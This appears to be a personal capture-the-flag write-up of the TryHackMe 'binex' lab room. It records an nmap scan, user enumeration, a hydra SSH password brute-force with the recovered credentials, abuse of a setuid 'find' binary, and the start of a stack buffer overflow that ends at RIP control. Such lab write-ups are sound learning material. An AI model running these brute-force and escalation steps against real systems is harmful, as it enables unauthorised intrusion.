







# binex


## nmap


Nmap scan report for 10.10.215.30                                                                                                      
Host is up (0.22s latency).                                                                                                            
Not shown: 65532 closed ports                                                                                                          
PORT    STATE SERVICE     VERSION                                                                                                      
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                 
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 7s, deviation: 0s, median: 6s
|_nbstat: NetBIOS name: THM_EXPLOIT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: thm_exploit
|   NetBIOS computer name: THM_EXPLOIT\x00
|   Domain name: \x00
|   FQDN: thm_exploit
|_  System time: 2020-08-18T03:14:27+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported 
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-18T03:14:27


## enum4linux


```
enum4linux -R 1000-1003 <ip>
```





#### usernames

- kel
- des
- tryhackme
- noentry


## hydra


using hydra to brute force into ssh

````
hydra -l tryhackme -P wordlist <ip> ssh
````





#### credentials

username		tryhackme

password		 thebest


## binex


### challenge 1


find command has setuid of user dev we can exploit it to get a shell with des privileges.



- got our shell 
- got the flag
- and new credentials


#### credentials

des

destructive_72656275696c64


### challenge 2


#### segmentation fault

that means there is a way to control the eip and execute our shell code




#### offset

- our base pointer is overwritten 
- we will calculate basepointer and add 8 bytes because we need to overwrite RIP
- which is 8 bytes below the base pointer






off set is 608 is 8 that is 616.


### EIP


now we are controlling the EIP.




````
run < <(python -c 'print 100 * "A"')

0x7fffffffde98
/x98/xde/xff/xff/
````

